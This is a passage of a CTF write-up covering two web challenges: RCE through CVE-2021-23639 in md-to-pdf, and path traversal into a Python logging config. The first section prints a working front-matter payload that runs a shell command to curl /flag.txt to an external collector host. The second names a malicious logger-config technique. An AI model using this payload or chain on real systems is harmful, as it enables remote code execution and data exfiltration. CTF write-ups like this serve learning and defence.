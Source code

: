 ![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608180/csaw/my-little-website_yp34fj.webp)

![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/my-little-website-challenge-pic_xuyuqc.webp)

So as far my enumeration went that's what I found:

- **expressJS** server running, identified with the headers.
- Opens a headless chrome instance to render the pdf.
- Dynamic XSS didn't work, might be beacuse the bot doesn't wait for the JS execution and even forcing it to wait doesn't really work it renders the HTML,CSS and then the PDF.

A wild guess by my teammate **M0ngi** about the markdown parser, the CVE was `CVE-2021-23639` which occurs in the vulnerable version of `md-to-pdf`

So we execute our final payload.

```md
---js
((require("child_process")).execSync("curl https://en7nqjdbzyckx.x.pipedream.net/ -d \"$(cat /flag.txt)\" "))
---
```

![my little website](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/my-little-website-flag_sqrb1m.webp)

## Good Intentions

![Good intentions](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608207/csaw/good-intentions_q5rbw9.webp)

Reading through the code, I found that the upload is secure.
![Secure upload](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608180/csaw/secure-upload_cs0nrd.webp)

But going further down the code the function to set the **logger** configuration file is vulnerable to **path traversal**.

![Unsecure Log set](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608175/csaw/unsecure_logconf_gan7js.webp)

Here, I didn't know which evil configuration should I **upload** then set the logger to. I needed to have RCE on the server. Fortunately enough, my teammate **n0s** sent me this link  of an [Evil logger](https%3A%2F%2Fgithub.com%2Fraj3shp%2Fpython-logging.config-exploit%2Fblob%2Fmain%2Fexploit%2Fbad-logger.conf%3Ffbclid%3DIwAR0W2Cdm3GLHqtFbAQjU3iatoSSTnlbj-kuUP_FYX3jYVHTvDvH7LrneBW4&h=AT2QW5JZ9Xo6Qxu0-PtnFRXvizekY-KwhalZdV6aiTe0nGrJKkLDiGvLKFysZp_1QIS5xBW03o98eLDuK-LJYfHx4uSZwRB05MOYG7pu420p1iUPViifuWgRXOQHSLMjihPiJQ).

So the final chain will be as the following:

![good-intentions-request-chain](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608204/csaw/good-intentions-request-chain_wf7er2.webp)

### Logger code **payload.conf**

```yaml
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
```